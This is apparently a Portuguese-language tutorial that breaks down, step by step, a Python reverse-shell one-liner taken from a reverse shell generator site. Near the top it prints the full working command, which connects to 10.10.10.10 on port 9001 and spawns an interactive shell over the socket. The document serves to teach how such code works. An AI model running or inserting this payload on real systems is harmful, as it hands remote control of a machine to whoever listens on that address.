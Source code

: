 
<h1 align="center">
   🔗 Code Review de um Reverse Shell
</h1>

<h2>👾  Descrição</h2>

Se você é um entusiasta do hacking e da Segurança da Informação com certeza você já usou ou já ouviu falar sobre o [Reverse Shell Generator](https://www.revshells.com/). É uma plataforma Web que você consegue utilizar um gerador de conexão reversa de diversos tipos de conexões para Windows, Linux e MAC, e com diferentes linguagens como: Python, C, Ruby e por ai vai.

Todo mundo sempre copia e cola um ou outro código de Shell reverso e percebendo isso resolvi questionar como realmente funciona um Reverse Shell. Será mesmo que é só copiar ou colar? Porque não podemos ir a fundo e ver oque podemos aprender com isso? Bora lá!


<h3>👾  O código</h3>

~~~shellscript
RHOST="10.10.10.10";export RPORT=9001;python
-c 'import sys,socket,os,pty;s=socket.socket();
s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));
[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'
~~~~
Esse código é um exemplo de um "one-liner" em Python que pode ser usado para estabelecer uma conexão de rede com um servidor remoto em um determinado endereço IP (RHOST) 
porta (RPORT) e, em seguida, criar um shell interativo no servidor remoto. Vamos quebrar o código em detalhes! Então sente-se e bora hackear!

<h3>👾  Analisando o código</h3>

1)
~~~shellscript
export RHOST="10.10.10.10"; export RPORT=9001;
~~~~
Essas são duas instruções export em shell que definem variáveis de ambiente. RHOST é definido como o endereço IP do servidor remoto (neste caso, "10.10.10.10"), e RPORT é definido como o número da porta (neste caso, 9001).

2)
~~~shellscript
python -c '... '
~~~~
 Isso inicia a execução do Python com um comando inline. O código Python entre as 'aspas' simples será executado.
 
 3)
 ~~~shellscript
import sys,socket,os,pty;
~~~~
 Isso importa os módulos Python necessários para a execução do código:
 
  * sys: Fornece acesso a variáveis e funções relacionadas ao sistema.
  * socket: Permite a criação de soquetes para comunicação em rede.
  * os: Fornece funcionalidades relacionadas ao sistema operacional.
  * pty: É usado para interagir com terminais pseudo-TTY.

 4)
 ~~~shellscript
s=socket.socket(); s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));
~~~~

Aqui, um objeto de soquete (s) é criado usando a classe socket.socket(). Em seguida, é estabelecida uma conexão com o servidor remoto usando o endereço IP e a porta definidos nas variáveis de ambiente RHOST e RPORT. os.getenv é usado para acessar os valores das variáveis de ambiente definidas anteriormente.

 5)
 ~~~shellscript
[os.dup2(s.fileno(),fd) for fd in (0,1,2)];
~~~~
Este é um list comprehension que duplica os descritores de arquivo padrão (stdin, stdout e stderr) para o soquete criado. Isso redireciona a entrada e saída padrão para a conexão de rede, permitindo que comandos sejam enviados e recebidos pelo servidor remoto.

 6)
 ~~~shellscript
pty.spawn("sh")
~~~~
Finalmente, a função pty.spawn é usada para criar um shell interativo no servidor remoto. Isso permite que o usuário interaja com o servidor remoto como se estivesse no prompt de comando do servidor.

Em resumo, este código Python é um exemplo de um "one-liner" que estabelece uma conexão de rede com um servidor remoto e cria um shell interativo para interagir com o servidor. É importante notar que esse tipo de código pode ser usado para fins maliciosos, portanto, deve ser usado com responsabilidade e apenas em ambientes autorizados.








